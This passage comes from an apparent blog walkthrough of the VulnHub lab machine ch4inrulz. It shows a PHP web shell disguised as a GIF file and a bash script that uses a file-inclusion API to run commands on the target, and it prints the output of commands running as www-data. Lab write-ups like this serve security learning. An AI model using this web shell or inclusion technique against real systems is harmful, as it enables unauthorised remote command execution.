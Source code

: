 ![8aa3a2cd.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/8aa3a2cd.png)

No luck even with `curl`.

```
# curl -u 'frank:frank!!!' http://192.168.20.130/development/uploader/FRANKuploads/cmd.php.gif?cmd=id
GIF89a;
<?php echo shell_exec($_GET['cmd']); ?>
```

Wait a minute. Back up. When's the last time I saw PHP loaded? At `8011/tcp` with `/api/files_api.php`!

Perhaps I can re-purpose `cat.sh` to something like this.

<div class="filename"><span>cmd.sh</span></div>

```bash
#!/bin/bash

HOST=192.168.20.130
API=api/files_api.php
PORT=8011
FILE=/var/www/development/uploader/FRANKuploads/cmd.php.gif
CMD=$(echo -n "$1" \
      | xxd -p \
      | tr -d '\n' \
      | sed -r 's/(..)/%\1/g')

curl -s -d "file=$FILE" "http://$HOST:$PORT/$API/?cmd=$CMD" \
| sed -e '6,$!d' -e '$d' \
| sed 1d
```

Let's give it a shot.

```
# ./cmd.sh id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
# ./cmd.sh "uname -a"
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
```

```
# ./cmd.sh "lsb_release -a"
Distributor ID:	Ubuntu
Description:	Ubuntu maverick (development branch)
Release:	10.10
Codename:	maverick
```


[1]: https://www.vulnhub.com/entry/ch4inrulz-101,247/
[2]: https://twitter.com/@mohammadaskar2
[3]: https://www.vulnhub.com/